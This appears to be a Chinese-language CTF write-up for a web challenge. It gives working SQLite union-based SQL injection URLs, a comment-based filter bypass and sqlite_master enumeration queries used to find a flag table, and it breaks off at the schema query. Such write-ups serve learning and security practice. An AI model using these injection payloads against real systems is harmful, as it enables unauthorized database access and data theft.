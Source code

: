 ```
http://ctf.babyweb.bsidesnoida.in/?chall[id=1/**/order/**/by/**/5
```

order by 7 时出现报错，说明字段为 6 。

```
http://ctf.babyweb.bsidesnoida.in/?chall[id=-1/**/union/**/select/**/1,2,(select),4,5,6
```

后面就是 sqlite 注入，sqlite 注入可以参考：[Sqlite注入的一点总结](https://lanvnal.com/2020/12/08/sqlite-zhu-ru-de-yi-dian-zong-jie/)

> 从sqlite_master查表名:
>
> ```sql
> sqlite> select tbl_name from sqlite_master where type='table';
> ```
>
> 获取表名和列名：
>
> ```sql
> sqlite> select sql from sqlite_master where type='table';
> ```
>
> 查版本：
>
> ```
> sqlite_version();
> ```

这里过滤了 `%`，所以像下面这样查表名，单引号会被拦截。

```
http://ctf.babyweb.bsidesnoida.in/?chall[id=-1/**/union/**/select/**/1,2,(select/**/tbl_name/**/from/**/sqlite_master/**/where type='table'),4,5,6
```

我们可以使用 limit 逐个查看。

```sql
http://ctf.babyweb.bsidesnoida.in/?chall[id=-1/**/union/**/select/**/1,2,(select/**/tbl_name/**/from/**/sqlite_master/**/limit/**/0,1),4,5,6

http://ctf.babyweb.bsidesnoida.in/?chall[id=-1/**/union/**/select/**/1,2,(select/**/tbl_name/**/from/**/sqlite_master/**/limit/**/1,1),4,5,6

http://ctf.babyweb.bsidesnoida.in/?chall[id=-1/**/union/**/select/**/1,2,(select/**/tbl_name/**/from/**/sqlite_master/**/limit/**/2,1),4,5,6
```

![image-20210809143253279](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/image-20210809143253279.png)

得到 flagss 表。然后查询字段。

```
http://ctf.babyweb.bsidesnoida.in/?chall[id=-1/**/union/**/select/**/1,2,(select/**/sql/**/from/**/sqlite_master/**/limit/**/2,1),4,5,6
```
